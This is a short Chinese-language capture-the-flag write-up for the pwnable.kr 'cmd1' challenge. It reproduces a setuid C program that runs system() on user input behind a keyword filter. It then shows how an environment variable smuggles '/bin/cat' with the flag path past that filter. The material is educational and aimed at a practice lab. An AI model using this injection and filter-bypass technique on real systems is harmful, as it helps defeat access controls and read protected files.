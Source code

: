 ```yaml
---
title: pwnable.kr-cmd1
date: 2018-01-28 13:26:00
tags: [pwnable.kr,PWN]
categories: CTF
copyright: true
---
```

## 前言
还是很有趣的题目，不过很基础，很适合我这样的新手。
## 分析
还是先贴源码`cmd1.c`
```c
#include <stdio.h>
#include <string.h>

int filter(char* cmd){
	int r=0;
	r += strstr(cmd, "flag")!=0;
	r += strstr(cmd, "sh")!=0;
	r += strstr(cmd, "tmp")!=0;
	return r;
}
int main(int argc, char* argv[], char** envp){
	putenv("PATH=/fuckyouverymuch");
	if(filter(argv[1])) return 0;
	system( argv[1] );
	return 0;
}

```
程序开头就把环境变量`PATH`置为`/fuckyouverymuch`，然后检查了第一个传入参数，通过验证后直接执行第一个参数。
但是等等，开头就开始骂人了？这能忍？老子上去就是环境变量绕过关键字检查，不用你帮老子找`cat`程序在哪，老子知道它在`/bin/`目录下面，于是就有了下面的exp
```bash
cmd1@ubuntu:~$ export a="/bin/cat /home/cmd1/flag"
cmd1@ubuntu:~$ $a
/bin/cat: /home/cmd1/flag: Permission denied
cmd1@ubuntu:~$ ./cmd1 "\$a"
mommy now I get what PATH environment is for :)
cmd1@ubuntu:~$ 

```
平复一下心情，来细细讲一下为什么。程序getflag的第一步就是绕过`filter`函数的检查，这很好办直接用环境变量就可以了。
第二步，由于程序修改了`PATH`变量，导致执行`system`函数时无法找到外部命令，只能执行内部命令，这也很好办使用绝对路径就可以了。解决代码就是上面的。
## 总结
还是很简单的一道题，但是也还是很有趣。